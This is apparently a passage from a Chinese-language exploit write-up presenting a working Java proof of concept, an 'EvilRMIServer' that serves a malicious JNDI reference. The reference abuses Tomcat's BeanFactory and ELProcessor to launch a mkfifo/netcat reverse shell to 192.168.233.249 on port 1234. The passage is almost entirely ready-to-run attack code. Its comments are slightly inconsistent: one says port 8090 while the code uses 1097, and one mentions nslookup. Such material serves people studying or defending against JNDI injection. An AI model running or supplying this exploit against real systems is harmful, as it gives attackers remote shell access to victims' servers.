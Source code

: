 ![](media/4f19e2342528cdbb64de48d186e11598.png)



下面为编写的java代码漏洞利用poc，指定了反弹shell的ip地址和端口及其开启rmi服务的端口

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 8090");//RMI服务地址为8090
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.233.249 1234 >/tmp/f']).start()\")"));
         //反弹shell地址为192.168.233.249，端口为1234
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}

```

